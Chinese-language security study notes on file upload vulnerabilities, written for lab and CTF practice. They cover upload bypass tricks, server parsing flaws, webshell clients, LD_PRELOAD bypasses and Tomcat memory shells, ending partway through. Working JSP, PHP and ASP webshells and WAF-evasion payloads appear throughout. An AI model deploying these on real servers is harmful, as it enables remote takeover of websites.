








# 文件上传漏洞

### **漏洞原理：**
- 在文件上传的功能处，若服务端脚本语言未对上传的文件进行严格验证和过滤，导致恶意用户上传恶意的脚本文件时，**获取执行服务端命令的能力**，这就是文件上传漏洞。
- 文件上传漏洞对Web应用来说是一种非常严重的漏洞。一般情况下，Web应用都会允许用户上传一些文件，如头像、附件等信息，如果Web应该没有对用户上传的文件进行有效的检查过滤，那么恶意用户就会上传一句话木马等webshell，从而达到控制web网站的目的。
- 文件上传实质上还是客户端的POST请求，消息主体是一些上传信息。前端上传页面需要指定enctype为multipart/from-data才能正常上传文件。
- 后台php或者asp都有这个漏洞，java后台如果不支持jsp页面，那么就没有这个漏洞。

### **靶机搭建**
使用搭建[upload-labs](upload-lab)靶机，可以docker一键搭建，一边靶机实战，一边学习漏洞技巧，**而且一定要看靶机的源码**。


### **一句话木马**
**一句话木马就是提供了一个代码执行的环境**  

jsp: 

```jsp
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }

    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("ant");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>


<!-- 使用蚁剑连接，密码ant，编码选base64-->
```

asp : `<% eval request("lzx")%>`  

aspx: `<%@ Page Language="Jscript"%><%eval(Request.Item["lzx"],"unsafe");%>`  

php : 

```php
1. <?php @eval($_POST['lzx']);?>    //提供了一个代码执行的环境
2. <script language="php">@eval_r($_POST['pwd'])</script>    7.0以上		php无效
```
### **客户端js校验绕过**
- 修改或禁用js，或者抓包修改文件后缀。
-  判断方法，没有流量经过burpsuite就提示错误
### **服务器端校验绕过**
- **服务端对数据包的MIME进行检查！**
    - 文件头content-type字段校验（image/gif）
    - 配置Burp Suite代理进行抓包，将Content-Type修改为image/gif，或者其他允许的类型。
- **服务器端检测文件名后缀**
  - **黑名单检测**
    
    - **文件名大小写绕过**：使用Asp、PhP之类的文件名绕过黑名单检测
    - **名单列表绕过**：
        - 用黑名单里没有的名单进行攻击，asp asa cer aspx。
        - jsp jspx jspf
        - php3,phtml.phps.php5,pht,可能虽然上传成功了，能解析必须满足:  
            Apache的 httpd.conf 中有如下配置代码：
            `AddType application/x-httpd-php .php .phtml .phps .php5 .phtml`
    - **上传 .htaccess 伪静态文件**，  
    （适用于黑名单检测方式，黑名单中未限制.htaccess）  
    该文件仅在Apache平台上存在，IIS平台上不存在该文件，该文件默认开启，启用和关闭在httpd.conf文件中配置。  
    该文件的写法如下：
    用伪静态需要保证：①mod_rewrite模块开启；②目录设置是AllowOverride All；
        ```
        <FilesMatch "liudehua"> 
        
        SetHandler application/x-httpd-php 
        
        </FilesMatch>
        ```
        该文件的意思是，只要遇到文件名中包含有"liudehua"字符串的，统一按照php文件来执行。  
        或者`AddType application/x-httpd-php `把全部文件当成php
    
    - **上传.user.ini文件**和.htaccess文件功能差不多
        - auto_append_file、auto_prepend_file两个配置自动包含文件，区别好像就是文件前后包含
        - 比如：auto_prepend_file=shell.gif
        - 然后会自动生成一个index.php在对应目录，index.php文件自动包含了shell.gif文件
        - 然后访问这个index.php文件
    - win系统解析漏洞绕过
        - 这些会经过字符串检测，在最后保存到服务器文件中会被windows系统自动去掉不符合规则符号，并保留前面的文件名。
        - test.asp.
        - test.asp空格
        - shell.php::$DATA 
        - shell.php::$DATA...
  
- **解析漏洞绕过**：直接上传一个注入过恶意代码的非黑名单文件即可，再利用解析漏洞利用。

###  **白名单检测**
- **0x00****截断绕过**：
    - 这里的0x00是指数据的二进制是0x00，也就是一个字节二进制全是0。同时0x00是字符串的结束标识符，攻击者可以利用手动添加字符串标识符的方式来将后面的内容进行截断。
    - 参考资料：[关于上传中的00截断分析](http://www.admintony.com/%E5%85%B3%E4%BA%8E%E4%B8%8A%E4%BC%A0%E4%B8%AD%E7%9A%8400%E6%88%AA%E6%96%AD%E5%88%86%E6%9E%90.h)
    - 0x00截断的使用条件：**PHP<5.3.29，且GPC关闭**
    - 0x00截断和文件名没有关系（是因为字符串正则匹配的时候，匹配到0x00就结束了，也就不会匹配后续的.jpg了），而是添加在上传路径上的（所以需要一个参数是路径参数，比较鸡肋，上传路径不会经过匹配）
    - 有些函数不会被0x00截断，具体哪些可以看看ctf-》php代码审计的。
    - %00和%00(urldecode)
        - 在网上常见用Burp将数据包中的%00进行urldecode的操作，那为什么要进行这一个操作？网上也常见直接放入%00就可以截断成功的案例，为什么呢？
        - 首先解释为什么要进行urldecode操作呢？其原因在于上传的表单中有一个enctype的属性，并且需要enctype="multipart/form-data" (不对表单中数据进行编码)，path大多数都是存放在表单中的，因此需要在数据包中进行urldecode操作使%00变成字符串结束符号（是因为根据urldecode的规则，%00会被解码成二进制的0x00，我们可以在burp的http数据的二进制显示页面看到(当然burp显示的是16进制的二进制表示)），我们将http的二进制改成00也是同理。
        - 那么为什么网上也有直接添加%00而不进行urldecode操作呢？因为path也可以存放在URL或者Cookie中，而在提交数据的时候，浏览器会对数据做一次urldecode的操作，而到服务端，会对数据进行一次urldecode的操作，因此如果path在非enctype=multipart/form-data的表单中或URL or Cookie中的时候，就可以直接写%00不需要进行URLdecode操作，让服务端对%00进行URL解码即可。
- 配合文件包含漏洞
- 配合解析漏洞

### **服务端文件内容检测：**
- 同时还要看检查不检查后缀名，不检查，直接一个图片马，后缀改成.php。
- 为什么图片马起作用，因为php的执行代码是<?php开头和?>结尾的，其他范围的字符串都不会搭理，所以只要php执行该图片马就能奏效。
- **图片马**
    - **图片木马制作**  
        - 命令：copy /b 1.jpg + 2.php 2.jpg   cmd命令 poweshell出错了  
        /a 指定以 ASCII 格式复制、合并文件。用于 txt 等文档类文件；  
        /b 指定以二进制格式复制、合并文件; 用于图像类/声音类文件；
        - 直接burpsuite抓上传一个普通图片的数据包，然后再在数据包末尾加上`<?php @eval($_POST['lzx']);?>`。
    - 主要是看，图片马能成功上传的后缀是什么？如果不是.php,图片马是不能解析的，因为会被当作图片去渲染，php不会去执行。
    这时候联动.htacess或.user.ini或文件包含漏洞，把该图片马当作php代码执行。
    - **配合文件包含漏洞**  
        - 需要文件包含漏洞的文件路径可控。
        - 绕过方式：（这里拿php为例，此漏洞主要存在于PHP中）
            - 先上传一个内容为木马的txt文件或者一个图片马，因为后缀名的关系没有检验内容；
            - 存在文件包含漏洞，并且路径可控，包含我们的txt或者图片马文件。这个php文件就会去引用txt文件或者图片马的内容，从而绕过校验。
- **文件加载检测**：
    - 这个是最变态的检测，检测上传的文件是一个图片。一般是调用API或者函数去进行文件加载测试，常见的是图像渲染测试，再变态一点的甚至是进行二次渲染。(一般很难遇上)
    - **绕过方法**：
        - 针对渲染加载测试：代码注入绕过
        - 针对二次渲染测试：用户提交的图片会被生成新图片，它相当于是把原本属于图像数据的部分抓了出来，再用自己的API或函数进行重新渲染在这个过程中非图像数据的部分直接就隔离开了。
        - 不过二次渲染会保留一些文件内容不会改变，所以在制作图片马之前，我们先观察二次渲染前后图片不会改变的地方（利用软件比较两张图片的二进制），将其代码写入其中即可绕过二次渲染。
- **条件竞争**
    - 对于多线程的函数的操作，不停上传，不停访问，使得在某条代码之前访问到webshell文件。
- **move_uploaded_file()**     
    - move_uploaded_file会忽略掉文件末尾的/. 所以可以构造 webshell.php/. 针对黑名单且没有过滤.
### **文件解析漏洞**

- **IIS解析漏洞：**
    - 目录解析漏洞(/test.asp/1.jpg)：
        - 在IIS5.x/6.0 中，在网站下建立文件夹的名字为*.asp、*.asa、*.cer、*.cdx的文件夹，那么其目录内的任何扩展名的文件都会被IIS当做asp文件来解释并执行。
        - 例如创建目录 test.asp，那么/test.asp/1.jpg 将被当做asp文件来执行。假设黑客可以控制上传文件夹路径，就可以不管上传后你的图片改不改名都能拿shell了
        - （如果IIS支持PHP,上传一个image.php目录,那么image.php文件夹下的文件也会被当做PHP文件解析。）
    - 文件名解析漏洞(test.asp;.jpg)：
        - 在IIS5.x/6.0 中，分号后面的不被解析，也就是说 xie.asp;.jpg 会被服务器看成是xie.asp。
        - IIS6.0默认的可执行文件除了asp还包含这两种.asa,.cer 。而有些网站对用户上传的文件进行校验，只是校验其后缀名。所以我们只要上传    *.asp;.jpg、*.asa;.jpg、*.cer;.jpg 后缀的文件，就可以通过服务器校验，并且服务器会把它当成asp文件执行。
    - 畸形解析漏洞(test.jpg/*.php)：
        - IIS7.0/7.5是对php解析时有一个类似于Nginx的解析漏洞，对任意文件名只要在URL后面追加上字符串"/任意文件名.php"就会按照php的方式去解析。
        - 在IIS7.0中，在默认Fast-CGI开启状况下，我们往图片里面写入下面的代码
        - <?php fputs(fopen('shell.php','w'),'<?php @eval($_POST[x])?>')?>
        - 将文件保存成test.jpg格式，上传到服务器，假设上传路径为/upload，上传成功后，直接访问/upload/test.jpg/x.php，此时神奇的畸形解析开始发挥作用啦。test.jpg将会被服务器当成php文件执行，所以图片里面的代码就会被执行。我们会神奇的发现在 /upload 目录下创建了一个一句话木马文件 shell.php 。
        - 临时解决办法：设置cgi.fix_pathinfo为0
        - 这个解析漏洞和下面讲的Nginx的解析漏洞是一样的。
  - **Nginx解析漏洞**
    - 畸形解析漏洞(test.jpg/*.php)：
    - %00空字节代码解析漏洞：
    - CVE-2013-4547(%20%00)：
  - **Apache解析漏洞**
    - 文件名解析漏洞：
        - 一个文件名为xxx.x1.x2.x3的文件（例如：index.php.fuck），Apache会从x3的位置往x1的位置开始尝试解析，如果x3不属于Apache能解析的扩展名，那么Apache会尝试去解析x2的位置，这样一直往前尝试，直到遇到一个能解析的扩展名为止。
        - 总结存在该漏洞的Apache版本：  
            Apache2.0.x<=2.0.59  
            Apache2.2.x<=2.2.17  
    - .htaccess文件：
### waf绕过
- **填充垃圾信息**：有些主机WAF软件为了不影响web服务器的性能，会对校验的用户数据设置大小上限，比如1M。此种情况可以构造一个大文件，前面1M的内容为垃圾内容，后面才是真正的木马内容，便可以绕过WAF对文件内容的校验；
- 有些WAF的规则是：如果数据包为POST类型，则校验数据包内容。此种情况可以上传一个POST型的数据包，抓包将POST改为GET。然后仍然传输POST的数据。
- 打乱字符；编码技术；拆分组合；创建，匹配。
- 换行，把payload放在分界线前面
```
Content-Disposition: form-data; name="file"; filename="1.p hp" 

Content-Type: image/jpeg 

 

<?php @eval($_POST[1])?> 

-----------------------------127619278770


Content-Disposition: form-data; name="file"; filename=="2.php" 多个等号(不止2，3个)
 Content-Type: image/jpeg
 <?php @eval($_POST[1])?>
 -----------------------------127619278770
```
- 如果只是内容匹配到了<php?可以使用js来设置代码处于php环境中  
`<script language="php">phpinfo();</script>`

### **文件上传防御**
1. 关掉上传文件的功能
2. **文件上传的目录设置为不可执行**只要web容器无法解析该目录下面的文件，即使攻击者上传了脚本文件，服务器本身也不会收到影响，因此这一点至关重要。
3. 限制能够上传的文件大小，防止服务器瘫痪
4. 检查上传文件的类型
5. 检查上传文件的内容
6. 上传的文件不要保存在公开的文件夹内，以避免被黑客直接读取。另外将文件的路径隐藏起来，或是将文件名称改成没有扩展名的随机文件名，都可以增加上传文件的安全性。

### webshell连接工具/原理
> 分析webshell作用的原理以及webshell工具的流量  
我们知道一句话木马就是提供一个代码执行的环境  
大概了解就行，具体的webshell工具发送的php代码可以不用看，因为太复杂了。

- 中国菜刀（挺古老的）

- 蚁剑:
    - 蚁剑能使用的webshell：
        - 待补充
    - 本地测试，一句话木马`<?php @eval($_POST['liudehua'])?>`,使用burp抓取蚁剑的http包（设置好蚁剑的代理为burp监听的端口,测试完记得改回来），用wireshark也可以。
    - 当我们输出好参数测试webshell连接的时候。
        - 蚁剑发送的http包为
            ```http
                POST /upload-labs/shell.php HTTP/1.1
                Host: test.com:38888
                Accept-Encoding: gzip, deflate
                User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2224.3 Safari/537.36
                Content-Type: application/x-www-form-urlencoded
                Content-Length: 1489
                Connection: close
            
                liudehua=%40ini_set(%22display_errors%22%2C%20%220%22)%3B%40set_time_limit(0)%3B%24opdir%3D%40ini_get(%22open_basedir%22)%3Bif(%24opdir)%20%7B%24oparr%3Dpreg_split(%22%2F%5C%5C%5C%5C%7C%5C%2F%2F%22%2C%24opdir)%3B%24ocwd%3Ddirname(%24_SERVER%5B%22SCRIPT_FILENAME%22%5D)%3B%24tmdir%3D%22.e161c88fac4%22%3B%40mkdir(%24tmdir)%3B%40chdir(%24tmdir)%3B%40ini_set(%22open_basedir%22%2C%22..%22)%3Bfor(%24i%3D0%3B%24i%3Csizeof(%24oparr)%3B%24i%2B%2B)%7B%40chdir(%22..%22)%3B%7D%40ini_set(%22open_basedir%22%2C%22%2F%22)%3B%40rmdir(%24ocwd.%22%2F%22.%24tmdir)%3B%7D%3Bfunction%20asenc(%24out)%7Breturn%20%24out%3B%7D%3Bfunction%20asoutput()%7B%24output%3Dob_get_contents()%3Bob_end_clean()%3Becho%20%22542f7e%22.%2264b3bd%22%3Becho%20%40asenc(%24output)%3Becho%20%2200%22.%22493%22%3B%7Dob_start()%3Btry%7B%24D%3Ddirname(%24_SERVER%5B%22SCRIPT_FILENAME%22%5D)%3Bif(%24D%3D%3D%22%22)%24D%3Ddirname(%24_SERVER%5B%22PATH_TRANSLATED%22%5D)%3B%24R%3D%22%7B%24D%7D%09%22%3Bif(substr(%24D%2C0%2C1)!%3D%22%2F%22)%7Bforeach(range(%22C%22%2C%22Z%22)as%20%24L)if(is_dir(%22%7B%24L%7D%3A%22))%24R.%3D%22%7B%24L%7D%3A%22%3B%7Delse%7B%24R.%3D%22%2F%22%3B%7D%24R.%3D%22%09%22%3B%24u%3D(function_exists(%22posix_getegid%22))%3F%40posix_getpwuid(%40posix_geteuid())%3A%22%22%3B%24s%3D(%24u)%3F%24u%5B%22name%22%5D%3A%40get_current_user()%3B%24R.%3Dphp_uname()%3B%24R.%3D%22%09%7B%24s%7D%22%3Becho%20%24R%3B%3B%7Dcatch(Exception%20%24e)%7Becho%20%22ERROR%3A%2F%2F%22.%24e-%3EgetMessage()%3B%7D%3Basoutput()%3Bdie()%3B  
            ```
        - 返回响应包为
            ```http
            HTTP/1.1 200 OK
            Date: Mon, 29 Nov 2021 02:36:52 GMT
            Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b mod_fcgid/2.3.9a mod_log_rotate/1.02
            X-Powered-By: PHP/7.0.9
            Connection: close
            Content-Type: text/html; charset=UTF-8
            Content-Length: 117
            
            542f7e64b3bdD:/app/phpstudy_pro/WWW/upload-labs	C:D:	Windows NT jack 10.0 build 22000 (Windows 10) AMD64	rose00493  
            ```
        - 通过分析上述两个数据包，可以知道，蚁剑通过传入`echo "542f7e"."64b3bd"`代码，然后匹配返回包中有没有542f7e64b3bd来判断有没有代码执行环境，也就是有没有webshell，同时还`echo "00"."493"`;当然这些数字每次都是随机的。
    - 其他包括文件上传，目录遍历，打开终端，运行命令，待补充。
    
- 冰蝎（Behinder）：

    - 基于Java开发的动态二进制加密通信流量的新型Webshell客户端，由于它的通信流量被加密，使用传统的WAF、IDS等设备难以检测，

- 哥斯拉（Godzilla）：

    - 哥斯拉是一款继冰蝎之后又一款于Java开发的加密通信流量的新型Webshell客户端，内置了3种有效载荷以及6种加密器，6种支持脚本后缀，20个内置插件
### 绕过disable_function
> 当我们使用蚁剑的时候，发现有些功能没法用，比如执行命令，就表示有些php函数被禁止了，没法用了。

#### LD_PRELOAD环境变量绕过

参考[ctfshow_php的恶意so绕过](https://www.bilibili.com/video/BV1XT4y1h7Th?spm_id_from=333.337.search-card.all.click)

[p牛的环境变量注入](https://tttang.com/archive/1450/)

[深入分析 LD_PRELOAD](https://forum.butian.net/share/1493)

**LD_PRELOAD**

*   **介绍**

    LD_PRELOAD是Linux系统的一个环境变量，它可以影响程序的运行时的链接（Runtime  linker），它允许你定义在程序运行前优先加载的动态链接库。这个功能主要就是用来有选择性的载入不同动态链接库中的相同函数。通过这个环境变量，我们可以在主程序和其动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数库。一方面，我们可以以此功能来使用自己的或是更好的函数（无需别人的源码），而另一方面，我们也可以以向别人的程序注入程序，从而达到特定的目的。

    **LD_PRELOAD，是个环境变量，用于动态库的加载，而动态库加载的优先级最高，因此我们可以抢先在正常函数执行之前率先执行我们的用代码写的函数**

*   **使用**

    **编写方法1**

    1.  定义一个函数，函数的名称、变量及变量类型、返回值及返回值类型都要与要替换的函数完全一致。这就要求我们在写动态链接库之前要先去翻看一下对应手册等。
    2.  将所写的 c 文件编译为动态链接库。
    3.  对 LD_PRELOAD 及逆行设置，值为库文件路径，接下来就可以实现对目标函数原功能的劫持了
    4.  结束攻击，使用命令 unset LD_PRELOAD 即可

    **编写方法2**

    **使用ext_skel框架开发php拓展**

    ```css
    php ext_skel.php --ext_skel.php --ext hello --author sunct --std
    ```

    再进入扩展目录修改c代码就行

    **编写方法3**

    最简单的是利用在 GCC 中有一个 C 语言的扩展修饰符 `__attribute__((constructor))` ，这个修饰符可以让由它修饰的函数在 main() 之前执行，如果它出现在我们的动态链接库中，那么我们的动态链接库文件一旦被系统加载就将立即执行`__attribute__((constructor))` 所修饰的函数。

    ```php
    //题目代码
    <?php
    foreach($_REQUEST['envs'] as $key => $val) {
        putenv("{$key}={$val}");//设置环境变量
    }
    //... 一些其他代码
    system('echo hello');
    ?>
    ```

    *   **有上传点时**

        直接上传个so文件，如hack.so，再通过`LD_PRELOAD=/var/www/html/uploads/hack.so`,来优先加载我们编写的恶意动态链接库

        如2022虎符ctf的ezphp   wp中c文件

        题目可以在https://www.wolai.com/4X2FgV1HkxcBYBRZT31T4F中的文件复现

        ```c
        #include <stdlib.h>
        #include <stdio.h>
        #include <string.h>
        
        __attribute__ ((__constructor__)) void preload (void){
          unsetenv("LD_PRELOAD");
          system("id");
          system("cat /flag > /var/www/html/flag");
        }
        ```

    *   **无上传点**

        *   **Nginx利用**

            Nginx对于请求的body内容会以临时文件的形式存储起来

            大概思路是：

            -   请求一个过大的body，会在/proc/self/fd目录下生成临时文件
            -   传一个填满大量脏数据的so文件
            -   竞争LD_PRELOAD包含 proc 目录下的临时文件(也可以通过python，pwn包中的time.sleep(60)，来保持连接，使临时文件不被删除)

        *   **可以修改默认扩展目录的so文件**

            如`/php/74/lib/php/extensions/no-debug-non-zts-2019090`

        *   **system的命令执行**

            详细见[p牛的环境变量注入](https://tttang.com/archive/1450/)

            php中调用system本质上是调用了`sh -c`

            在不同操作系统中：

            -   debian：sh→dash
            -   centos：sh→bash

            总结：

            -   `BASH_ENV`：可以在`bash -c`的时候注入任意命令
            -   `ENV`：可以在`sh -i -c`的时候注入任意命令
            -   `PS1`：可以在`sh`或`bash`交互式环境下执行任意命令
            -   `PROMPT_COMMAND`：可以在`bash`交互式环境下执行任意命令
            -   `BASH_FUNC_xxx%%`：可以在`bash -c`或`sh -c`的时候执行任意命令

## 无jsp环境下文件上传利用

>  https://wx.zsxq.com/mweb/views/topicdetail/topicdetail.html?topic_id=182452148288452&group_id=2212251881&inviter_id=421128451825228
>
> https://www.wangan.com/articles/2954#433531

**覆盖charsets.jar进行RCE，但是会影响原本项目的运行。**


# 内存马

> https://www.anquanke.com/post/id/266240
>
> java web基础

内存马，顾名思义就是在内存存在的马，当文件被删除了依然存在，也叫无文件马，不落地马。

如何实现webshell内存马

- 目标：访问任意url或者指定url，带上命令执行参数，即可让服务器返回命令执行结果
- 实现：以java为例，客户端发起的web请求会依次经过Listener、Filter、Servlet三个组件，我们只要在这个请求的过程中做手脚，在内存中修改已有的组件或者动态注册一个新的组件，插入恶意的shellcode，就可以达到我们的目的。
- 

## 内存马类型

根据内存马注入的方式，大致可以将内存马划分为如下两类

1. servlet-api型
    - 通过命令执行等方式动态注册一个新的listener、filter或者servlet，从而实现命令执行等功能。特定框架、容器的内存马原理与此类似，如spring的controller内存马，tomcat的valve内存马

2. 字节码增强型: Java Agent内存马。
    - 通过java的instrumentation动态修改已有代码，进而实现命令执行等功能。

在特定框架里，如Spring/Struts2等框架，按照位置分类可以有

- interceptor型
- controller型

同时，针对不同的中间件还有不同的类型

- Tomcat的Pipeline&Valve
- Grizzly的FilterChain&Filter等等

内存马注入点：

- jsp注入
- 代码执行漏洞注入

## tomcat基础



Tomcat是一个Servlet容器，其中包括了Container、Engine、Host、Context、Wrapper等模块功能。

**Server**：表示整个 Tomcat Catalina servlet 容器，Server 中可以有多个 Service。tomcat 默认的 Service 服务是 Catalina。

- **Service：**

    - 表示Connector和Engine的组合，对外提供服务，Service可以包含多个Connector和一个Engine。

    - Connector：

        - 为Tomcat Engine的**连接组件**，支持三种协议：HTTP/1.1、HTTP/2.0、AJP。作。**向外提供端口，从端口中接受数据，并封装成Request对象传递给Container组件。**
        - 连接器与容器之间通过 ServletRequest 和 ServletResponse 对象进行交流。

    - **Container：**

        - 容器（Container）主要包括四种，Engine、Host、Context和Wrapper。也就是这个图中包含的四个子容器。

        - 

        - 由下图可以看出，Container在处理请求时使用的Pipeline管道，Pipeline 是一个很常用的处理模型，和 FilterChain 大同小异，都是责任链模式的实现，Pipeline 内部有多个 Valve，这些 Valve 因栈的特性都有机会处理请求和响应。上层的Valve会调用下层容器管道，一步一步执行到FilterChain过滤链。

        - **Engine：**

            - > 顶级容器，不能被其他容器包含，它接受处理连接器的所有请求，并将响应返回相应的连接器，子容器通常是 Host 或 Context。

            - **Host：**表示一个虚拟主机（表示的就是一个网站了），包含主机名称和IP地址，这里默认是localhost。

                - **Context**：

                    - > - **表示一个 Web 应用程序，是 Servlet、Filter 的父容器。**
                        > - servletContext负责的是servlet运行环境上下信息，不关心session管理，cookie管理，servlet的加载，servlet的选择问题，请求信息，主要负责servlet的管理。
                        > - **StandardContext主要负责管理session，Cookie，Servlet的加载和卸载，负责请求信息的处理，掌握控制权。**
                        > - ServletContext主要是适配Servlet规范（是一个接口），StandardContext是tomcat的一种容器.**Tomcat中的对应的ServletContext实现是ApplicationContext。**

                    - **在Tomcat中对应的ServletContext实现是ApplicationContext**。Tomcat惯用Facade方式，因此在web应用程序中获取到的ServletContext实例实际上是一个ApplicationContextFacade对象，对ApplicationContext实例进行了封装。**而ApplicationContext实例中含有Tomcat的Context容器实例（StandardContext实例，也就是在server.xml中配置的Context节点），以此来获取/操作Tomcat容器内部的一些信息，例如获取/注册servlet等。Filter内存马的实现也是基于此知识点获取到了存储在StandardContext中的filterConfigs HashMap结构。**

                    - **Wrapper：**

                        - 表示一个 Servlet，它负责管理 Servlet 的生命周期，并提供了方便的机制使用拦截器。

- 

- 

## Filter内存马

> https://www.freebuf.com/articles/web/274466.html
>
> https://www.cnblogs.com/bmjoker/p/15114884.html

StandardContext：Context接口的标准实现类，一个 Context 代表一个 Web 应用，其下可以包含多个 Wrapper.

相关Filter类介绍

- filterDefs：存放FilterDef的数组 ，FilterDef 中存储着我们过滤器名，过滤器实例等基本信息
    - 

